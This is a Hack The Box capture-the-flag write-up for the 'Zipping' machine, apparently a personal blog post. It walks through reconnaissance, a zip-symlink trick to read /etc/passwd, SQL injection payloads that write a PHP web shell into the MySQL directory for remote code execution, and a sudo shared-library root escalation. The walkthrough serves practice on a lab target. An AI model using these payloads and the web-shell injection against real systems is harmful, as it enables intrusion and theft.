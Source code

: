 ```yaml
---
title: Zipping Report
date: 2023-09-14 12:00:00 pm
categories: [HTB]
tags: [HTB, Linux, Medium, SQLI, RCE, LFI]

img_path: /assets/img/htb/writeups/zipping
---
```


## **Information gathering**

* * *
* * *

**Scope:** 10.10.11.229/32 (Linux)

**TCP Nmap scan:** 65,535 ports

* **Open ports**:
	* 22/ssh:
		* Banner grabbing
			- Version: OpenSSH_9.0p1 Ubuntu-1ubuntu7.3
				* [OpenSSH 9.4](https://www.openssh.com/txt/release-9.4)/[9.4p1](https://www.openssh.com/txt/release-9.4) (2023-08-10)
			- Codename: kinetic [codename.py](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/testing_tools/codename.py)
			- CVEs Version: [https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1](https://nvd.nist.gov/vuln/search/results?form_type=Advanced&cves=on&cpe_version=cpe:/a:openbsd:openssh:9.0p1)
	* 80/http:
		* Banner grabbing
			* Server: Apache/2.4.54 (Ubuntu)
			* Firefox
				![](firefox_interface.png)
			* Technologies
				* Programming Languages: PHP
				* JavaScript libraries: Jquery 3.4.1
			* Basic url scrapping
				![](url_scrapping_curl.png)
				* http://10.10.11.229/upload.php
					* Description: The application will only **accept zip files, inside them there must be a pdf file** containing your curriculum.
				* http://10.10.11.229/shop
					* Description: Zipping watching store (**Basic LFI vulnerable** [page]) [only .php files]

## **Vulnerability Assesment**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* [https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)
		![](zip_symlinks_ht.png)
		* Steps:
			* ln -rs /etc/passwd reader.pdf
			* zip --symlinks reader.zip reader.pdf
			![](zip_lfi_pdf.png)
* Code analisys
	* (/shop/cart.php)
		![](cart_php.png)
		* preg_match: To bypass this check you could **send the value with new-lines urlencoded** (`%0A`) [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.)
	* (/shop/index.php)
		![](index_php.png)
		* We can include any .php file in "page" parameter
	* Create phpinfo file in a directory with permissions and read it
		* Payload: ';select+'\<?php+phpinfo(); ?>'+into+outfile+'/var/lib/mysql/phpinfo.php';#1
			![](sqli_poc.png)
			![](sqli_out.png)

## **Exploitation**

* * *
* * *

* rektsu RCE
	* Payload: %0a';select '\<?php system($\_GET\["cmd"]); ?>' into outfile '/var/lib/mysql/rce_poc.php';#1
		![](rce_poc.png)

## **Post-exploitation**

* * *
* * *

* Rekztu user
	* Sudo binary without password (/usr/bin/stock)
		* Shared Libraries [https://tbhaxor.com/understanding-concept-of-shared-libraries/](https://tbhaxor.com/understanding-concept-of-shared-libraries/)
			![](lib_call.png)
			![](root.png)

## **Lateral movement**

* * *
* * *

## **Proof of concept**

* * *
* * *

* http://10.10.11.229/upload.php (ZIP automatically decompressed upload)
	* Bash script (zip_reader.sh)
		![](zip_lfi_poc.png)
* http://10.10.11.229/shop/cart.php & http://10.10.11.229/shop/index.php?page (SQLI and PHP include)
	* Python script
		![](sqli_rce_poc.png)
* Repository scripts [https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Zipping)